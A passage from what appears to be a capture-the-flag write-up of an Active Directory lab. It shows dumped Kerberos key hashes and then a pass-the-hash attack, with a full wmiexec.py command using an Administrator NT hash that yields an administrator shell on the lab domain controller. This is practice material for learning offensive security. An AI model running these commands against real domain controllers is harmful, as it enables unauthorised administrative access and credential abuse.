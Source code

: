 ```zsh
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:940809a7ef7eea6a2cee204215f64db44f858c91498c925aba8538d05da88cbd
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:d5557947610c7386479ea2a67243d8fa
ATTACKTIVEDIREC$:des-cbc-md5:ef766eea733d975d
[*] Cleaning up... 
```

![](/assets/img/AD/damn.gif)

## Pass The Hash

- - -

NICE!! With this hashes on our possession, we can simply perform a `Pass The Hash` attack to access the DC as Administrator, **OR**, we could access the DC via `evil-winrm`.

### Wmiexec.py

- - -

This is pretty simple to use:

```zsh
❯ wmiexec.py spookysec.local/Administrator@10.10.128.202 -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm-ad\administrator

C:\>
```

You only need to specify the domain, the username, the IP of the DC, and the NT hash.
